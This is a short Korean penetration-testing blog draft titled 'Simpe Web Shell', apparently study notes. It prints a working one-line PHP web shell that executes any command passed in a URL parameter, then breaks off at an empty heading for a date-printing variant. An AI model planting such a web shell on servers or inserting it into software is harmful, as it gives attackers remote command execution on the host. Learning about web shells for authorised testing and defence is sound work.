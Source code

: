 ```yaml
---
title: Simpe Web Shell
date: YYYY-MM-DD HH:MM:SS +09:00
categories: [모의해킹]
tags:
  [WEB]
---
```


### 웹쉘 테스트


### 한줄 웹쉘

<?php echo shell_exec($_GET['cmd']); ?>

### 날짜 출력 웹쉘
